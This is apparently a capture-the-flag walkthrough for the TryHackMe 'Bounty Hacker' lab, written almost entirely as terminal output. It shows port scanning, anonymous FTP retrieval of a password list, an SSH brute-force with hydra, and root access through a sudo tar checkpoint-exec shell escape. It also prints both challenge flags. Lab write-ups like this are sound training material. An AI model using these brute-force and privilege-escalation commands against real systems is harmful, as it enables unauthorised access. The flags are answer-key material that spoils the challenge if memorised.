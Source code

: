 https://tryhackme.com/room/cowboyhacker

BoxIP: 10.10.85.238

    ┌──(root💀kali)-[/home/kali/bounty]
    └─# rustscan --ulimit 5000 -b 2500 -a 10.10.85.238 -- -A
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : https://discord.gg/GFrQsGy           :
    : https://github.com/RustScan/RustScan :
     --------------------------------------
    Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

    [~] The config file is expected to be at "/root/.rustscan.toml"
    [~] Automatically increasing ulimit value to 5000.
    Open 10.10.85.238:21
    Open 10.10.85.238:22
    Open 10.10.85.238:80
    [~] Starting Script(s)
    [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

    [~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-24 13:52 EDT
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 13:52
    Completed NSE at 13:52, 0.00s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 13:52
    Completed NSE at 13:52, 0.00s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 13:52
    Completed NSE at 13:52, 0.00s elapsed
    Initiating Ping Scan at 13:52
    Scanning 10.10.85.238 [4 ports]
    Completed Ping Scan at 13:52, 0.15s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 13:52
    Completed Parallel DNS resolution of 1 host. at 13:52, 0.01s elapsed
    DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating SYN Stealth Scan at 13:52
    Scanning 10.10.85.238 [3 ports]
    Discovered open port 21/tcp on 10.10.85.238
    Discovered open port 22/tcp on 10.10.85.238
    Discovered open port 80/tcp on 10.10.85.238
    Completed SYN Stealth Scan at 13:52, 0.15s elapsed (3 total ports)
    Initiating Service scan at 13:52
    Scanning 3 services on 10.10.85.238
    Completed Service scan at 13:52, 6.31s elapsed (3 services on 1 host)
    Initiating OS detection (try #1) against 10.10.85.238
    Retrying OS detection (try #2) against 10.10.85.238
    Initiating Traceroute at 13:52
    Completed Traceroute at 13:52, 0.15s elapsed
    Initiating Parallel DNS resolution of 2 hosts. at 13:52
    Completed Parallel DNS resolution of 2 hosts. at 13:52, 0.02s elapsed
    DNS resolution of 2 IPs took 0.02s. Mode: Async [#: 3, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
    NSE: Script scanning 10.10.85.238.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 13:52
    NSE: [ftp-bounce 10.10.85.238:21] PORT response: 500 Illegal PORT command.
    NSE Timing: About 99.76% done; ETC: 13:53 (0:00:00 remaining)
    Completed NSE at 13:53, 30.73s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 13:53
    Completed NSE at 13:53, 0.89s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 13:53
    Completed NSE at 13:53, 0.00s elapsed
    Nmap scan report for 10.10.85.238
    Host is up, received echo-reply ttl 63 (0.12s latency).
    Scanned at 2022-08-24 13:52:46 EDT for 43s

    PORT   STATE SERVICE REASON         VERSION
    21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.9.2.110
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 1
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
    |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
    |   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))



    ┌──(root💀kali)-[/home/kali/bounty]
    └─# ftp 10.10.85.238
    Connected to 10.10.85.238.
    220 (vsFTPd 3.0.3)
    Name (10.10.85.238:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 
    ftp> ls -la 
    229 Entering Extended Passive Mode (|||51503|)
    ^C
    receive aborted. Waiting for remote to finish abort.
    ftp> passive
    Passive mode: off; fallback to active mode: off.
    ftp> ls -la
    200 EPRT command successful. Consider using EPSV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
    drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
    -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
    -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
    226 Directory send OK.
    ftp> get locks.txt
    local: locks.txt remote: locks.txt
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for locks.txt (418 bytes).
    100% |***********************************************************************************************************************************************************************|   418        7.03 KiB/s    00:00 ETA
    226 Transfer complete.
    418 bytes received in 00:00 (2.20 KiB/s)
    ftp> get task.txt
    local: task.txt remote: task.txt
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for task.txt (68 bytes).
    100% |***********************************************************************************************************************************************************************|    68       58.45 KiB/s    00:00 ETA
    226 Transfer complete.
    68 bytes received in 00:00 (0.33 KiB/s)
    ftp> exit
    221 Goodbye.


    ┌──(root💀kali)-[/home/kali/bounty]
    └─# cat locks.txt 
    rEddrAGON
    ReDdr4g0nSynd!cat3
    Dr@gOn$yn9icat3
    R3DDr46ONSYndIC@Te
    ReddRA60N
    R3dDrag0nSynd1c4te
    dRa6oN5YNDiCATE
    ReDDR4g0n5ynDIc4te
    R3Dr4gOn2044
    RedDr4gonSynd1cat3
    R3dDRaG0Nsynd1c@T3
    Synd1c4teDr@g0n
    reddRAg0N
    REddRaG0N5yNdIc47e
    Dra6oN$yndIC@t3
    4L1mi6H71StHeB357
    rEDdragOn$ynd1c473
    DrAgoN5ynD1cATE
    ReDdrag0n$ynd1cate
    Dr@gOn$yND1C4Te
    RedDr@gonSyn9ic47e
    REd$yNdIc47e
    dr@goN5YNd1c@73
    rEDdrAGOnSyNDiCat3
    r3ddr@g0N
    ReDSynd1ca7e

    ┌──(root💀kali)-[/home/kali/bounty]
    └─# cat task.txt  
    1.) Protect Vicious.
    2.) Plan for Red Eye pickup on the moon.

    -lin


        ┌──(root💀kali)-[/home/kali/bounty]
        └─# hydra -l lin -P locks.txt 10.10.85.238 ssh                                 
        Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 13:59:48
        [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
        [DATA] attacking ssh://10.10.85.238:22/
        [22][ssh] host: 10.10.85.238   login: lin   password: RedDr4gonSynd1cat3


        lin@bountyhacker:~/Desktop$ ls
        user.txt
        lin@bountyhacker:~/Desktop$ cat user.txt
        THM{CR1M3_SyNd1C4T3}

        lin@bountyhacker:~/Desktop$ sudo -l
        [sudo] password for lin: 
        Matching Defaults entries for lin on bountyhacker:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User lin may run the following commands on bountyhacker:
            (root) /bin/tar


        lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
        tar: Removing leading `/' from member names
        # whoami
        root
        # cd /root
        # ls -la
        total 40
        drwx------  5 root root 4096 Jun  7  2020 .
        drwxr-xr-x 24 root root 4096 Jun  6  2020 ..
        -rw-------  1 root root 2694 Jun  7  2020 .bash_history
        -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
        drwx------  2 root root 4096 Feb 26  2019 .cache
        drwxr-xr-x  2 root root 4096 Jun  7  2020 .nano
        -rw-r--r--  1 root root  148 Aug 17  2015 .profile
        -rw-r--r--  1 root root   19 Jun  7  2020 root.txt
        -rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
        drwx------  2 root root 4096 Jun  7  2020 .ssh
        # cat root.txt
        THM{80UN7Y_h4cK3r}















